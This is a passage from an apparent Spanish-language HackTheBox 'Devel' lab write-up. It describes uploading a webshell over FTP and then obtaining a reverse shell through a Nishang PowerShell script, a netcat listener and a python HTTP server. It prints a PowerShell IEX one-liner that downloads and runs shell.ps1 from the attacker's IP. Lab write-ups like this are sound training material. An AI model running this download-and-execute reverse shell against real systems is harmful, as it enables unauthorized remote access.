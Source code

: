 ![](/assets/images/HTB/Devel-HackTheBox/ftp2.webp)

Una vez lo subo accedo a la ruta donde he subido el archivo desde el navegador y compruebo que ya puedo ejecutar comandos.

![](/assets/images/HTB/Devel-HackTheBox/webshell.webp)

Ahora que ya puedo ejecutar comandos intento ejecutar una reverse shell one-line de Nishang (Invoke-PowershellTcp)

Lo primero que he de hacer es modificarla añadiendo mi ip y el puerto donde recibiré la reverse shell.

![](/assets/images/HTB/Devel-HackTheBox/rev1.webp)

Una vez editada abro un servidor python3 con el comando `python3 -m http.server 8081`.

Pongo un oyente de netcat en escucha en el puerto configurado en la reverse shell.

Y a través de la webshell ejecuto lo siguiente para descargar la reverse shell.

> powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8081/shell.ps1')"

![](/assets/images/HTB/Devel-HackTheBox/webshell123.webp)

Y obtengo acceso al sistema.

Ahora compruebo que tipo de privilegios tengo como el usuario `iis apppool`
